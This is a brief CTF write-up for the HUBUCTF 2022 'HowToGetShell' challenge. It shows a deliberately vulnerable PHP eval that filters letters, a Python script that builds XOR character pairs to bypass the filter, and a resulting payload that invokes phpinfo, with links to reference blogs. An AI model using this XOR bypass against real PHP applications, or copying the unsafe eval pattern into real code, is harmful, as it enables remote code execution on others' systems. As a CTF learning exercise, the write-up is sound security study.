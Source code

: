 #RCE

```php
<?php
show_source(__FILE__);
$mess = $_POST['mess'];
if (preg_match("/[a-zA-Z]/", $mess)) {
    die("invalid input!");
}
eval($mess);
```

这个题取反不知为何我这里没反应

#### 异或

```php
valid = "1234567890!@$%^*(){}[];\'\",.<>/?-=_`~ "

answer = "phpinfo"

tmp1,tmp2 = '',''
for c in answer:
    for i in valid:
        for j in valid:
            if (ord(i)^ord(j) == ord(c)):
                tmp1 += i
                tmp2 += j
                break
        else:
            continue
        break
print(tmp1,tmp2)
// mess=$_="0302181"^"@[@[_^^";$_();
```

参考

[[HUBUCTF 2022 新生赛]\_S@Kura 的博客-CSDN 博客](https://blog.csdn.net/zhhhb1005/article/details/127035837)

[[HUBUCTF 2022 新生赛]HowToGetShell 题解\_dockerere 的博客-CSDN 博客](https://blog.csdn.net/qq_64222098/article/details/132162902)
